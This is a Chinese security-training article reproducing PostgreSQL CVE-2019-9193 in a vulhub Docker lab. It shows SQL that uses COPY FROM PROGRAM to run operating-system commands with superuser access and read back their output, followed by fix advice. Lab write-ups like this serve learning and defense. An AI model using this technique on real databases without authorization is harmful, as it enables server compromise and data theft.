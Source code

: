 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/d_PlkDtioCsN1apeiGJh1Q)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6pRiabDicuyO5uBZsDB68SyC0XxgOZhLhlViaOZ1YCIFFeMJjrXWeooBlQ1e4FbKVVYYVGyuZZkicfBA/640?wx_fmt=gif)

本文由 “网络安全检测与防护技术国家地方联合工程研究中心深圳分中心——东塔网络安全学院” 总结归纳

**0x00 简介**

PostgreSQL(读作 Post-Gres-Q-L) 是一个功能非常强大的、源代码开放的客户 / 服务器关系型数据库管理系统（RDBMS）。采用类似 MIT 的许可协议，允许开发人员做任何事情，包括在开源或闭源产品中商用，其源代码是免费提供的。

PostgreSQL 特点：

Ø 支持 WINDOWS、Linux、Solaris、macOS 、BSD。

Ø 支持文本、图像、视频、声音等

Ø 支持 ACID、关联完整性、数据库事务、Unicode 多国语言。Ø 支持临时表，与物化视图

Ø 支持 SQL 的许多功能，例如复杂的 SQL 查询，子查询，外键，触发器，视图，视图，多进程并发控制 (MVCC)、异步复制。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQDicOTcCQMRJjuglpa5FrPA4dfQqcq7U1oiacv3vq1h2dMF6yAA9kVBCg/640?wx_fmt=png) 

**0x01 漏洞概述**

PostgreSQL 是一个功能强大对象关系数据库管理系统 (ORDBMS)。由于 9.3 增加一个“COPY TO/FROM PROGRAM” 功能。这个功能就是允许数据库的超级用户以及 pg_read_server_files 组中的任何用户执行操作系统命令。

**0x02 影响版本**

9.3-11.2

**0x03 环境搭建**

1. 本次漏洞环境使用 vulhub 中的 docker 搭建，vulhub 下载地址：

https://github.com/vulhub/vulhub

2. 下载完成后使用 xftp 传入安装有 docker 和环 docker-compose 境的虚拟机中解压并启动环境

```
cd vulhub-master/postgres/CVE-2019-9193
docker-compose up -d
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQNdxq7iaO04KPrywauia4ZDqStLPMUPnSLhMian2iax7V3a0VA0ziaKBWJew/640?wx_fmt=png)

3. 使用 docker ps 查看是否启动成功

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQHP2hqPHVianRegknqYRzQBiath1HibR9Ljsjwaibzr1icm4ldQnEGM4CBuA/640?wx_fmt=png) 

4. 启动成功后使用 navicat 连接数据库，数据库初始账号密码为 postgres/

postgres

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQRBYF9DiaEx7BgR8soSooicy78TD2L8emIgfsBrpelicqh9ibNlibDwwoUicg/640?wx_fmt=png) 

**0x04 漏洞复现**

注：这个漏洞介于权限提升和任意代码执行之间，它需要一些前提权限，这些权限可以是通过正常的登录 PostgreSQL 也可以是通过 SQL 注入获得与 PostgreSQL 交互的途径。需要说明的是，上述两种情形下都需要用户是一个超级用户或者是 “pg_read_server_files” 组用户

1. 执行删除你想用来保存命令输出但是可能存在的表，这一步可有可无

```
DROP TABLE IF EXISTS cmd_exec
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQ9V4cqQ5j0RgoDUXd4gHZG1zMsksO7jZEaVm1jkHBnyy9Pl4b8XJysg/640?wx_fmt=png) 

2. 创建用来保存命令输出的表

```
CREATE TABLE cmd_exec(cmd_output text);
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQcCVibibA90N6UGA2g2kSXiaxeqCmau0KaaotCZarabmiaVuNYYI6Vic6s3w/640?wx_fmt=png) 

3. 通过 “COPY FROM PROGRAM” 执行系统命令

```
COPY cmd_exec FROM PROGRAM 'id'
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQffStbWhrWN6XqX9CVKDoeKLZHzLPTibhR2dO722JNtRbERUNicibBxzgw/640?wx_fmt=png) 

4. 将结果显示出来

```
SELECT * FROM cmd_exec
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQUNOEe5edTCUHJYs9MODbyKsbsSVGyxthhicAVbVlQUBV9dfYy0NgMEg/640?wx_fmt=png) 

5. 执行其他命令

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQfgyuy9nibTALRoWOxaub6uJAg9skBqRHL39vf8VicXE2szNjydXZKdAw/640?wx_fmt=png) 

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQW86lZ6PkzSruQ5TtQt6kiaUX4tBR6ibXLo9BnBciczrNWIpGuDPyNQHAA/640?wx_fmt=png)

6. 查看账号信息

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQWqibU657FEtgjxWqibXAbwrm2puMLrYcT5sSxolDXd4VbcPJk73sibkmA/640?wx_fmt=png)

**0x05 修复建议**

1. 建议升级至最新版本

2. 控制数据库权限禁止普通用户执行命令

免责申明：   

本项目仅进行信息搜集，漏洞探测工作，无漏洞利用、攻击性行为，发文初衷为仅为方便安全人员对授权项目完成测试工作和学习交流使用。

请使用者遵守当地相关法律，勿用于非授权测试，勿用于非授权测试，勿用于非授权测试（重要的事情说三遍），如作他用所承受的法律责任一概与东塔网络安全学院无关！

东塔网络安全学院在各大平台均上线了各项活动和学习内容，快快登录以下各大平台学习起来吧~  

微博、腾讯课堂、知乎、今日头条、抖音：

东塔网络安全学院

哔哩哔哩：东塔网络安全

了解更多活动和咨询欢迎微信添加：dongtakefu

  

  

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQfciaw73HAJxqibzvAaja2qMCBstNsyWIVZ5tsKvAYhCBnOqBop6A0IVw/640?wx_fmt=jpeg)

- 免费获取学习资料

电子书籍、试听课程 -

  

  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqO7WjR3dBDuWOMpmStoLaQKJiaVCBTwKicAKdptkbfMEOuhm85HEtgq8LLhCYlzibkpicP7THLpLkDQg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucChaE0GfBticZTQQq7TyhaiaeptZbqmENrZO6pazDwFpVB6aTFicgLwngsOuNLMY3sIMxddybn82O4Q8w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucChaE0GfBticZTQQq7Tyhaiaepl2oEubhGdZoAicHvXAYeSiarPXAy9OXNtJiaCkvviccX0w0Z0t0ibBnnD2Q/640?wx_fmt=png)

点击蓝字

分享我们